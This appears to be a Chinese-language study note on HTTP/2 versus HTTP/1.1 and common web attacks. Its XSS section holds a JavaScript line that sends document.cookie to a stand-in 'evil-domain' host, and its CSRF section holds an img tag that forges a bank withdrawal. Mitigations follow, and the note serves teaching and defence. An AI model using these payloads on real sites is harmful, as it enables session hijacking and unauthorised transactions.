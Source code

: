 #### 1.HTTP2和HTTP1.1有几处基本不同

1. HTTP2是二进制协议而不是文本协议。不再可读，也不可无障碍的手动创建，改善的优化技术现在可被实施。
2. 这是一个可复用协议。并行的请求能在同一个链接中处理，移除了HTTP1.x中顺序和阻塞的约束；
3. 压缩了headers,因为headers在一系列请求中常常是相似的，其移除了重复和传输重复数据的成本；
4. 其允许服务器在客户端缓存中填充数据，通过一个叫服务器推送的机制来提前请求。

#### 2.HTTP2进化

2016年HTTP的新扩展：

1. 对Alt-Svc的支持允许了给定资源的位置和资源鉴定，允许了更智能的CDN缓存机制；
2. Client-Hints的引入允许浏览器或者客户端来主动交流它的需求，或是硬件约束的信息给服务端；
3. 在Cookie头中引入安全相关的前缀，现在帮助保证一个安全的cookie没被更改过。

#### 3.常见的攻击

1. 会话劫持和XSS

   ```js
   (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
   ```

   `HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

2. 跨站请求伪造（CSRF）

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；

- 任何敏感操作都需要确认；

- 用于敏感信息的Cookie只能拥有较短的生命周期；

  